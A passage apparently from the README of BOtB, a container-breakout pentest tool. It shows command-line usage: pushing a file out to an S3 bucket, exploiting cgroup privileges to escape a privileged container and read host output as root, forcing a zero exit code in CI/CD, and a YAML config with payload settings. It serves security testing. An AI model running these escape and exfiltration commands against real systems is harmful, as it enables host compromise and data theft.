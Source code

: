 ```
```

### Push data to an AWS S3 Bucket
```
#  ./bob_linux_amd64 -s3push=fileToPush.tar.gz -s3bucket=nameOfS3Bucket -region=eu-west-2
[+] Break Out The Box
[+] Pushing fileToPush.tar.gz -> nameOfS3Bucket
[*] Data uploaded to: https://nameOfS3Bucket.s3.eu-west-2.amazonaws.com/fileToPush.tar.gz
[+] Finished

```

### Break out of a Privileged Container
```
#  ./bob_linux_amd64 -pwn-privileged=hostname
[+] Break Out The Box
[+] Attempting to exploit CGROUP Privileges
[*] The result of your command can be found in /output
[+] Finished
root@418fa238e34d:/app# cat /output 
docker-desktop
```

### Force BOtB to always succeed with a Exit Code of 0
This is useful for non-blocking CI/CD tests
```
#  ./bob_linux_amd64 -pwn-privileged=hostname -always-succeed-true
[+] Break Out The Box
[+] Attempting to exploit CGROUP Privileges
[*] The result of your command can be found in /output
[+] Finished
# echo $?
0

```

### Using BOtB with a YAML config file
Example YAML file cfg.yml

```
payload: id
verbose: false
always-succeed: true
cicd: false
endpointlist: endpoints.txt
wordlist: wordlist.txt
path: /
mode: find-sockets

```
Run BOtB with the above YAML
